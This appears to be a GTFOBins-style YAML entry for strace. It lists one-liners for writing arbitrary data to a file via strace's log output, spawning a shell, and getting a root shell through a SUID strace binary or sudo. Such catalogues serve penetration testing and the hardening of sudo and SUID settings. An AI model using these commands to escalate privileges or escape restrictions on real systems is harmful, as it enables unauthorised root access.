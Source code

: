 ```yaml
---
functions:
  file-write:
    - description: The data to be written appears amid the syscall log, quoted and with special characters escaped in octal notation. The string representation will be truncated, pick a value big enough. More generally, any binary that executes whatever syscall passing arbitrary data can be used in place of `strace - DATA`.
      code: |
        LFILE=file_to_write
        strace -s 999 -o $LFILE strace - DATA
  shell:
    - code: strace -o /dev/null /bin/sh
  suid:
    - code: ./strace -o /dev/null /bin/sh -p
  sudo:
    - code: sudo strace -o /dev/null /bin/sh
---
```

